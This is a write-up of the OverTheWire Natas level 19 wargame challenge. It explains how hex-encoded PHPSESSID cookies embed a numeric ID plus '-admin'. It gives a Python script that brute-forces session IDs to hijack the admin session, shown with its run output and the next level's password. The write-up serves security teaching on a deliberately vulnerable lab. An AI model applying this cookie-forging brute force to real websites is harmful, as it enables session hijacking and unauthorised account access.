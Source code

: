 +++
author = "Alex Domnit"
title = 'Natas-Level 19'
date = 2024-08-27T12:53:35+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas19*\
*Password: tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr*\
*URL:      http://natas19.natas.labs.overthewire.org*

### Doc
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.\
[What is a cookie?🍪](https://en.wikipedia.org/wiki/HTTP_cookie)\
HTTP cookies are small blocks of data created by a web server while a user is browsing a website and placed on the user's computer or other device by the user's web browser. Cookies are placed on the device used to access a website, and more than one cookie may be placed on a user's device during a session.

### Tools
[CyberChef](https://gchq.github.io/CyberChef/)

### Solution

<img src="/img/natas/natas19-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
This level seems identical so far with <strong>natas18</strong>, the only notable difference present being the fact that the prompt tells us that now, session ID`s are no longer sequential. Let`s look at the cookies for a second in order to see what is being stored.

<img src="/img/natas/natas19-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
As we can see, this time the <strong>PHPSESSID</strong> variable seems to contain a HEX encoded string. Using cyberchef we can see how it is being translated and what data it communicates.

<img src="/img/natas/natas19-3.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
As you can see, the format seems to be the following <strong>SessionId</strong>+<strong>loginUser</strong>. You can play a bit with the format by deleting characters in the initial HEX encoding in order to sepparate the part we are interested in.

<img src="/img/natas/natas19-4.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
As you can see, I`ve managed to sepparate the <strong>-admin</strong> part out of the final string, this will be helpful later.

#### What`s the idea?
To solve this, the first thing that came to mind was:\
Always append the <strong>-admin</strong> part to the string that is composed from the **SessionId**, and we will progressively parse through id`s until the response we get from the server is not the generic:

<img src="/img/natas/natas19-5.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
We can modify the python script from the previous level to achieve this goal since the backcode for this level is identical. It is important to remember that the string has to be encoded into HEX in order for the cookie to be valid.

#### Python script:
```
import requests
import binascii

url = "http://natas19.natas.labs.overthewire.org"

# Set up a session with basic auth
s = requests.Session()
s.auth = ('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')

def try_login(session_id):
    # Convert session ID to a hex-encoded string
    tmp = f"{session_id}-admin"
    val = binascii.hexlify(tmp.encode('utf-8')).decode('ascii')

    # Set up the cookie
    cookies = {'PHPSESSID': val}

    # Send the request
    response = s.get(url, cookies=cookies)

    # Check if the response indicates non-admin access
    if "Login as an admin to retrieve" in response.text:
        print(f"Trying: {session_id} - Failed")
        return False
    else:
        print(f"Success with session ID: {session_id}")
        print(response.text)
        return True

# Iterate over possible session IDs
for x in range(640):
    if try_login(x):
        break

```
And the running process of this script should be identical to the previous one. The execution might take a little while.
#### Script execution:
```
01:12:45 archie@Archie py → python3 pythonscript.py
Trying: 0 - Failed
Trying: 1 - Failed
Trying: 2 - Failed
Trying: 3 - Failed
Trying: 4 - Failed
Trying: 5 - Failed
Trying: 6 - Failed
Trying: 7 - Failed
.
.
.
Trying: 274 - Failed
Trying: 275 - Failed
Trying: 276 - Failed
Trying: 277 - Failed
Trying: 278 - Failed
Trying: 279 - Failed
Trying: 280 - Failed
Success with session ID: 281
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
</body>
</html>
```
As you can see, we`ve got the password for **natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw**
